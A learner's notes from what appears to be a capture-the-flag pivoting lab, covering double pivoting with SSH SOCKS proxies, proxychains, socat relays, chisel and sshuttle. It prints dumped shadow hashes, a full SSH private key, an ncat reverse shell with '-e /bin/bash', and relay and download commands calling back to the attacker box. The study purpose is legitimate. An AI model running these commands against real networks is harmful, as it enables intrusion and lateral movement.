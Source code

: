 
Let's see if i have understood the concept of Pivoting correctly or there are some loop holes which i need to work on.

SO what i am going to do it i will not use any software like
Chisel / Sshuttle / Socat etc....

And try to do the configuration of Double pivoting using Proxychains and SSH.


### The Layout

Machines in Wreath lab are as follows:

| IP            | Hostname    | Notes           |
| ------------- | ----------- | --------------- |
| 10.50.88.33   | `attack`    | My box          |
| 10.200.87.200 | `Prod-Serv` | First jump box  |
| 10.200.87.150 | `Git-Serv`  | Second jump box |
| 10.200.87.100 | `Wreath-PC` | Final machine   |


Important thing to know is:

- `attack` can only talk to `Prod-Serv`
- `Prod-Serv` can only talk to `Git-Serv`
- `Git-Serv` can only talk to `Wreath-PC`


## So How Does `attack` talk to `Wreath-PC`?

We use `ssh` SOCKS proxies. A [SOCKS](https://en.wikipedia.org/wiki/SOCKS) proxy differs from traditional port forwarding in that SOCKS is a protol, whereas port forwarding is routing. If it is easier to visualize using the OSI model, port forwarding occurs at the network layer, while SOCKS proxying works at the application layer. Put simply, you can send any type of network traffic over a port forward: ssh traffic, http traffic, raw bytes, whatever. SOCKS is a protocol, so the communication must occur using the [defined protocol](https://ftp.icm.edu.pl/packages/socks/socks4/SOCKS4.protocol).

```
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::

twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::
```


id_rsa (i.e. /root/.ssh/id_rsa)
```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

Let's login 1st:
```
 ssh -i id_rsa root@thomaswreath.thm
```

Let's establish the SOCKS:
```
ssh -f -N -D 127.0.0.1:8888 root@thomaswreath.thm
```

This is what worked for me as i don't have a password
```
ssh -f -N -D 127.0.0.1:8888 root@thomaswreath.thm -i id_rsa
```


What each flag does:

| Flag | Explanation                                                                                                                                                          |
| ---- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-f` | This sends the command to background right before executing a command remotely (think `command &`)                                                                   |
| `-N` | This tells `ssh` not to execute a command remotely. We are just establishing a tunnel/proxy, no need to execute a command.                                           |
| `-D` | This tells `ssh` to establish a local dynamic application-level port forwarding. This is the local port we will send our requests to IE where our SOCKS proxy exists |

![[Pasted image 20240716123655.png]]

```
 ss -tulpn | grep 88
```

Once we have a SOCKS proxy established, we can then use `proxychains4` to communicate over the newly established tunnel/proxy. I make a local config file to use.

```
socks4  127.0.0.1 8888 # From our machine to jumpbox1 (i.e. Prod-Serv) via this command you ran: ssh -f -N -D 127.0.0.1:8888 root@thomaswreath.thm
```


```
proxychains4 -f ~/new-proxychains.conf ssh jumpbox2.local
```


>[! bug] Important
As we can't do a forward proxy through ssh to jumpbox1

The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.

Reverse Shell

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```





# Socat

socat makes a very good relay: for example, if you are attempting to get a shell on a target that does not have a direct connection back to your attacking computer, you could use socat to set up a relay on the currently compromised machine. This listens for the reverse shell from the target and then forwards it immediately back to the attacking box:

### Set up a relay
```
socat tcp-listen:8000,fork tcp:10.50.88.33:4444 &
```

### Set up a reverse shell
```
./ncat_sardarji 127.0.0.1 8000 -e /bin/bash
```

![[Pasted image 20240725165921.png]]

So how to do the above process using SSH and proxychains

```
ssh -L 8080:10.50.88.33:443 root@thomaswreath.thm -i id_rsa
```

```
socks4 127.0.0.1 9000
```

```
proxychains curl http://10.50.88.33:8080/socat_sardarji -o socat_sardarji
```






# Chisel 

[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality as the standard SSH proxying / port forwarding we covered earlier; however, the fact it doesn't require SSH access on the compromised target is a big bonus.

Before we can use chisel, we need to download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal:


### Chisel binary has two modes: _client_ and _server_.

Attack Machine
```
./chisel server -p LISTEN_PORT --reverse &
```

```
curl 10.50.106.240/chisel_1.9.1_linux_amd64  -o chisel-sardarji
```

```
Attacker
./chisel_1.9.1_linux_amd64 server -p 1337 --reverse & 
```

![[Pasted image 20240727174405.png]]

Compromised
```
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

```
client 10.50.88.33:1337 R:socks &
```


Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.


## Forward Sock Proxy
Victim
```
./chisel server -p LISTEN_PORT --socks5
```

Attacker
```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```



<h2>So basically we are doing Reverse Socks / Forward Socks/ Remote Port Forward / Local Port Forward </h2>

```

./chisel server -p 4242 --reverse
./chisel client 172.16.0.200:4242 R:socks &

./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
./chisel client 172.16.0.200:1337 R:3306:172.16.0.100:3306 &

./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
./chisel client 172.16.0.10:4444 8000:172.16.0.5:80
```






## Sshuttle

```
sshuttle -r root@thomaswreath.thm --ssh-cmd "ssh -i id_rsa" 10.200.87.0/24
```






